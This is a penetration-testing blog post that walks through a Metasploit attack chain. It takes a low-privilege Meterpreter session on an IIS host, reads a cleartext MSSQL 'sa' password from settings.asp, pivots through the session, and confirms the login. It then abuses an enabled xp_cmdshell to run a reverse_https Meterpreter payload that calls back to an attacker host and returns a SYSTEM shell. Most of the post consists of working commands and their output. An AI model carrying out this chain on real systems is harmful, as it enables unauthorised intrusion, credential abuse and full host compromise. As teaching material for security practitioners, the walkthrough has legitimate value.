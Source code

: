 = 0Exploit Privilege Escalation
:hp-tags: Hacking, metasploit, pivoting

The other day [Chris Gates](http://carnal0wange.attackresearch.com/) posted an [excellent blog post](http://carnal0wnage.attackresearch.com/node/417) about the WebDAV hotness that [Chris Sullo](http://twitter.com/chrissullo) (author of [Nikto](http://cirt.net/Nikto2)) cooked up ([DAVTest](http://security.sunera.com/2010/04/davtest-quickly-test-exploit-webdav.html)) which [Ryan Linn](http://twitter.com/sussurro) popped out a [Metasploit module](http://trac.happypacket.net/browser/msfmods/trunk/modules/auxiliary/scanner/http/webdav_test.rb) for.

Anyways, the story left off being a very limited user called "Network Service". This user has Read and Execute, but no Write access, and a very limited field of view to boot.

```
meterpreter > getuid
Server username: **NT AUTHORITYNETWORK SERVICE**
```

Lets look around a bit..

```
meterpreter > pwd

C:\Inetpub\wwwroot

meterpreter > ls

Listing: C:\Inetpub\wwwroot
===========================
Mode  Size  Type  Last modified  Name
----  ----  ----  -------------  ----
40777/rwxrwxrwx  0  dir  Fri May 07 09:32:19 -0400 2010  .
40777/rwxrwxrwx  0  dir  Mon May 03 12:51:48 -0400 2010  ..
40777/rwxrwxrwx  0  dir  Mon May 03 12:12:57 -0400 2010  admin
100666/rw-rw-rw-  1587  fil  Sat Dec 08 23:01:24 -0500 2001  default.asp
100666/rw-rw-rw-  1465  fil  Sat Dec 08 23:01:24 -0500 2001  default.css
100666/rw-rw-rw-  3295  fil  Thu Jan 03 12:40:48 -0500 2002  forgotpass.asp
40777/rwxrwxrwx  0  dir  Mon May 03 12:12:57 -0400 2010  images
40777/rwxrwxrwx  0  dir  Mon May 03 12:12:57 -0400 2010  language
100666/rw-rw-rw-  1802  fil  Thu Jan 24 12:10:04 -0500 2002  logoff.asp
100666/rw-rw-rw-  7785  fil  Sat Jun 15 19:49:20 -0400 2002  logon.asp
100666/rw-rw-rw-  1801  fil  Mon May 03 12:42:45 -0400 2010  settings.asp
100666/rw-rw-rw-  21137  fil  Wed Aug 28 11:31:42 -0400 2002  setup.asp
```

Sweet! a "settings.asp"

```
meterpreter > cat settings.asp

<SCRIPT LANGUAGE = "VBScript">
<(editorial snip)>
SQLUser = "sa"
SQLPass = "SuperDuper#@rdP@$$w0rd2012"
<(/editorial snip)>
</SCRIPT>
```

SA with clear text password. Good luck bruteforcing that one. But they block 1433 directly to the box so direct SQL queries are out. No problem.

Pivoting to the rescue:

```
meterpreter >
Background session 1? [y/N] 

msf exploit(handler) > route add 192.168.56.0 255.255.255.0 1

msf exploit(handler) > route print

Active Routing Table
====================
Subnet  Netmask  Gateway
------  -------  -------
192.168.56.0  255.255.255.0  Session 1
```

Then we use mssql_login to check to see if our creds are right (set BLANK_PASSWORDS to false since we already know the password and we aren't trying to brute force it). This will be routed through our meterpreter session that has NETWORK SERVICE permissions.

```
msf exploit(handler) > use scanner/mssql/mssql_login
msf auxiliary(mssql_login) > set BLANK_PASSWORDS false
BLANK_PASSWORDS => false

msf auxiliary(mssql_login) > set PASSWORD SuperDuper#@rdP@$$w0rd2012
PASSWORD => SuperDuper#@rdP@$$w0rd2012

msf auxiliary(mssql_login) > set RHOSTS 192.168.56.3
RHOSTS => 192.168.56.3

msf auxiliary(mssql_login) > run

[*] 192.168.56.3:1433 - MSSQL - Trying username:'sa' with password:'SuperDuper#@rdP@$$w0rd2012'

[+] 192.168.56.3:1433 - MSSQL - successful login 'sa' : 'SuperDuper#@rdP@$$w0rd2012'

[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Cool. Now some enumeration and check to see if xp_cmdshell is enabled (it outputs a lot of info so I cut it down to just the pieces we are looking for):


```
msf exploit(mssql_login) > use admin/mssql/mssql_enum
msf auxiliary(mssql_enum) > set PASSWORD SuperDuper#@rdP@$$w0rd2012
PASSWORD => SuperDuper#@rdP@$$w0rd2012

msf auxiliary(mssql_enum) > set RHOST 192.168.56.3
RHOST => 192.168.56.3

msf auxiliary(mssql_enum) > run
[*] Running MS SQL Server Enumeration...

[*] Version:
[*] Microsoft SQL Server  2000 - 8.00.194 (Intel X86)
[*] Aug  6 2000 00:57:48
[*] Copyright (c) 1988-2000 Microsoft Corporation
[*] Enterprise Edition on Windows NT 5.2 (Build 3790: Service Pack 2)

<(editorial snip)>

[*] xp_cmdshell is Enabled

<(/editorial snip)>

[*] Instances found on this server:
[*]  MSSQLSERVER
[*] Default Server Instance SQL Server Service is running under the privilege of:
[*] LocalSystem
[*] Auxiliary module execution completed
```

XP_CMDSHELL and the server runs as local system. Looking good, payload time.

```
msf auxiliary(mssql_enum) > use windows/mssql/mssql_payload
msf exploit(mssql_payload) > set PAYLOAD windows/meterpreter/reverse_https
PAYLOAD => windows/meterpreter/reverse_https

msf exploit(mssql_payload) > set LHOST 10.10.10.59
LHOST => 10.10.10.59

msf exploit(mssql_payload) > set RHOST 192.168.56.3
RHOST => 192.168.56.3

msf exploit(mssql_payload) > set LPORT 443
LPORT => 443

msf exploit(mssql_payload) > set PASSWORD SuperDuper#@rdP@$$w0rd2012
PASSWORD => SuperDuper#@rdP@$$w0rd2012

msf exploit(mssql_payload) > exploit

[*] HTTPS listener started on https://10.10.10.59:443/
[*] Command Stager progress - 2.78% done (1494/53675 bytes)
[*] Command Stager progress - 5.57% done (2988/53675 bytes)
[*] Command Stager progress - 8.35% done (4482/53675 bytes)

<(editorial snip)>

[*] Command Stager progress - 94.64% done (50796/53675 bytes)
[*] Command Stager progress - 97.32% done (52235/53675 bytes)
[*] 192.168.56.3:1061 Request received for /AvlbV...
[*] 192.168.56.3:1061 Staging connection for target vlbV received...
[*] Patching Target ID vlbV into DLL
[*] 192.168.56.3:1062 Request received for /BvlbV...
[*] 192.168.56.3:1062 Stage connection for target vlbV received...

[*] Meterpreter session 2 opened (10.10.10.59:443 -> 192.168.56.3:1062) at Thu May 06 22:03:50 -0400 2010

[*] Exploit completed, but no session was created.
msf exploit(mssql_payload) > sessions -i 2
[*] Starting interaction with 2...

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
``` 

Game over..

**Note: Routing only sends the module(be it exploit or aux) through the session. Once the payload runs (for exploit modules), it's is calling straight back to the LHOST (Attacker box), not through the session. So, in this example you can now exit session 1 (NETWORK SERVICE) as it's not really needed any more.**
